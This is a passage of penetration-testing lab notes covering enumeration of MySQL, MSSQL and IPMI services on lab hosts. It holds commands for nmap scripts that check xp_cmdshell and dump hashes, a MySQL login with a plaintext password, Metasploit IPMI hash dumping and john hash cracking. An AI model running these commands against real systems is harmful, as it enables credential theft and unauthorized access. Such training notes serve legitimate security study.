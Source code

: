 Nmap script scan:
```shell
sudo nmap 10.129.14.128 -sV -sC -p3306 --script mysql*
```

Login to MySQL server:
```shell
mysql -u root -pP4SSw0rd -h 10.129.14.128
```

# MSSQL
---

Nmap MSSQL script scan:
```shell
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248
```

MSSQL ping in metasploit:
```shell
auxiliary(scanner/mssql/mssql_ping) > set rhosts 10.129.201.248
```

Connecting with Mssqlclient.py:
```shell
mssqlclient.py Administrator@10.129.201.248 -windows-auth
```

# IPMI
---

Nmap script scan:
```shell
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local
```

Metasploit version scan3£
```shell
use auxiliary/scanner/ipmi/ipmi_version 
```

Metasploit dump IPMI hashes:
```shell
use auxiliary/scanner/ipmi/ipmi_dumphashes
```

Crack IPMI hash with john:
```shell
john --fork=8 --incremental:alpha --format=rakp hash
```

### Default Credentials:

**HP Integrated Lights Out (iLO)**
`Administrator:<factory randomized 8-character string>`
